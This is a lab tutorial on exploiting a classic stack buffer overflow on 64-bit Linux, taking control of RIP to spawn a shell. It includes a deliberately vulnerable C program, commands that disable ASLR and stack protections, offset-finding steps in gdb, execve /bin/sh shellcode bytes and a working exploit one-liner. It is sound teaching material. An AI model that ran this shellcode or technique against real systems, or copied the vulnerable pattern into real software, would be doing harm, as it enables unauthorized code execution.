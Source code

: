 # 64-bit Stack-based Buffer Overflow

The purpose of this lab is to understand how to get control of the RIP register when dealing with classic stack-based buffer overflow vulnerabilities in x64 bit Linux systems.

This lab is based on a great post [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/).

{% hint style="info" %}
Note that the vulnerable program used in this lab is compiled without memory protections deliberately. Also, for this lab to work, ASLR on your Linux system must be disabled.
{% endhint %}

Useful notes:

{% page-ref page="../../../miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame.md" %}

## Vulnerable Code

In this lab, we will be using the below vulnerable program:

{% tabs %}
{% tab title="vulnerable.c" %}
```c
// code from https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```
{% endtab %}
{% endtabs %}

We can compile the above code with:

```python
gcc -fno-stack-protector -z execstack vulnerable.c -o vulnerable
```

{% hint style="warning" %}
Don't forget to disable the ASLR:

```text
echo 0 > /proc/sys/kernel/randomize_va_space  
```
{% endhint %}

## Getting Control of RIP

Let's try to overflow the program by sending some garbage data to it. First of, let's generate the said garbage - 200 AAAAs...:

```python
python -c "print 'A'*200" > in.bin
```

Let's now run the vulnerable program, feed the garbage file to it and observe what happens:

```python
gdb vulnerable
r < in.bin
```

![Vulnerable program crashes when the garbage is fed to it, but the RIP is not overwritten](../../../.gitbook/assets/image%20%28899%29.png)

Note from the above screenshot the following key points:

* The stack has been overflowed with As \(lime\);
* RIP register \(red\) has not been overflowed although it would have been, had this been a 32-bit binary. On the same note, we can indeed see that the return address \(RSP + 0 as `ret` instruction will pop this value and jump to it\) has been filled with As, so why are we not in control of the RIP register?

### Why is RIP not overflowed?

The reason the RIP was not overflowed \(technically it was, as we saw in the above screenshot, but there's more to it\), is because the `AAAAAAAA` \(`0x4141414141414141`\) is considered a non-canonical memory address, or, in other words, `0x4141414141414141` is a 64-bit wide address and current CPUs prevent applications and OSes to use these addresses. The highest memory that programs can address is 48-bit wide addresses and they are capped at `0x00007FFFFFFFFFFF` - this is to prevent complexity in memory address translations that would not provide much benefit to the OSes or applications as it's very unlikely they would ever need to use all of that 64-bit address space. 

### Controlling RIP

Knowing about canonical addresses, we could take control of the RIP if the 64-bit wide return address `0x4141414141414141` \(our garbage data\) was translated to a 48-bit canonical address by masking off the 2 highest bytes:

```python
// WinDBG
0:000> ? 0x4141414141414141 & 0x00007FFFFFFFFFFF
Evaluate expression: 71748523475265 = 00004141`41414141
```

Making our garbage return address a valid canonical address:

$$
0x0000414141414141
$$

Let's see if we can make the program crash and make the RIP point to the now valid return address `0x0000414141414141`. Before we can do this, we need to find out how much garbage `AAA..` we need to send in to the vulnerable program before we can place `0x0000414141414141` onto the stack, so that we can take over the RIP.

In gdb-peda, let's create a pattern of 200 characters:

```python
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

Now feed that pattern to the vulnerable program, observe the crash, and find the offset where we should place our preferred RIP value \(`0x0000414141414141`\):

![RIP offset is 104](../../../.gitbook/assets/image%20%28876%29.png)

From the above screenshot, we can see that our pattern `A7AAMAAiA...` is visible at the top of the stack -  this value would be popped from the stack and jumped to by the `ret` instruction and we are interested in knowing how deep into the stack it goes. To work it out, we can use another gdb-peda command like so:

```python
gdb-peda$ pattern_offset A7AAMAAiA
A7AAMAAiA found at offset: 104
```

We can now see that the offset of interest is **104**, so let's test it by generating a new garbage file:

```python
python -c "print 'A'*104 + '\x41\x41\x41\x41\x41\x41\x00\x00'" > in.bin
```

Note that our garbage data will now contain 104 As and a canonical return address `0x0000414141414141` \(in reverse due to little-endianness\). Sending this data to the vulnerable program reveals that we have now taken control of the RIP register:

![We can now control RIP as it points to 0x0000414141414141](../../../.gitbook/assets/image%20%28888%29.png)

## Exploitation

We'd like the vulnerable program to spawn a shell for us when exploited, so we will place the [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) in the environment variable `PWN` like so:

```python
export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

We now need to find the memory address of the `PWN` environment variable in the vulnerable program's stack. For this, we can use the following program:

{% tabs %}
{% tab title="getenvvar.c" %}
```cpp
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition
// compile: gcc getenvvar.c -o getenvvar

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
{% endtab %}
{% endtabs %}

Simply run it like so:

```python
./getenvvar PWN ./vulnerable
```

...to learn that `PWN` environment variable will be on the vulnerable program's stack at `0x7fffffffefa8`:

![PWN environment variable location on the stack in the vulnerable program](../../../.gitbook/assets/image%20%28880%29.png)

Let's now convert `0x7fffffffefa8` to its canonical \(2 highest bytes masked off\) form, which equals to `0x0000ffffefa8`. We can now try to exploit the vulnerable program by sending the garbage data that now includes the `PWN` environment variable address as the return address at offset 104, like so:

```python
(python -c "print 'A'*104 + '\xa8\xef\xff\xff\xff\x7f\x00\x00'"; cat) | ./vulnerable
```

![Vulnerable program is exploited and results in a new shell](../../../.gitbook/assets/x64-stack-overflow.gif)

To confirm the exploit worked as expected, we can `unset` the `PWN` environment variable and try to exploit the program again - we will see the program crash, since it no longer has no shellcode to execute:

![Exploit no longer works since shellcode is gone from the PWN environment variable](../../../.gitbook/assets/image%20%28879%29.png)

## References

{% embed url="https://www.ret2rop.com/2018/08/stack-based-buffer-overflow-x64.html" %}

{% embed url="https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/" %}

{% embed url="https://medium.com/@\_neerajpal/explained-difference-between-x86-x64-disassembly-49e9678e1ae2" %}

[https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf](https://www.cs.tufts.edu/comp/40/docs/x64_cheatsheet.pdf)

